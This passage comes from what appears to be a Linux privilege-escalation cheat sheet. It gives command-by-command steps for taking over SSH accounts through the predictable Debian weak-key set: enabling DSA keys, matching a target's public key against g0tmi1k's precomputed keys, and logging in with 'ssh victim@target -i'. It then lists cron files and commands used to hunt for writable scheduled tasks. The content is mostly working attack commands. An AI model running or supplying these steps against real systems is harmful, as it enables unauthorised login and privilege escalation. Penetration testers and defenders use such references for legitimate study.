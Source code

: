 ```ps1
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config
/etc/init.d/ssh restart
```

Get [g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```ps1
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

```ps1
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

```ps1
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

## Scheduled tasks

### Cron jobs

Check if you have access with write permission on these files.
Check inside the file, to find other paths with write permissions.

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
